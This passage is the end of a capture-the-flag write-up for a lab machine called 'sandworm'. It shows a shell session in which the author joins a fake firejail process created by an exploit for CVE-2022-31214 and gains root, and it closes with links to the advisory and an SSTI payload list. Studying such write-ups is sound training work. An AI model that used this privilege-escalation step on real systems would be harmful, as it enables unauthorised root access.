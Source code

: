 As soon as I join the fake firejail process created by the exploit in a new shell session, it spawns a child process with a new namespace where I can switch to the root user.

```bash
(remote) atlas@sandworm:/opt/tipnet$ firejail --join=22960
changing root to /proc/22960/root
Warning: cleaning all supplementary groups
Child process initialized in 8.31 ms
atlas@sandworm:/opt/tipnet$ sudo su -
atlas is not in the sudoers file.  This incident will be reported.
atlas@sandworm:/opt/tipnet$ su -
root@sandworm:~# id
uid=0(root) gid=0(root) groups=0(root)
root@sandworm:~# cd /root
root@sandworm:~# ls -la root.txt
-rw-r----- 1 root root 33 Jun 23 13:51 root.txt
root@sandworm:~#
```

**Pwned!!**




---

# Related Links

- [Server Side Template Injection - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/#jinja2)
- [oss-security - firejail: local root exploit reachable via --join logic (CVE-2022-31214)](https://www.openwall.com/lists/oss-security/2022/06/08/10)
- [A Privilege Context Switching issue was discovered in... · CVE-2022-31214 · GitHub Advisory Database](https://github.com/advisories/GHSA-m2xv-wgqg-4gxh)
- https://www.openwall.com/lists/oss-security/2022/06/08/10/1
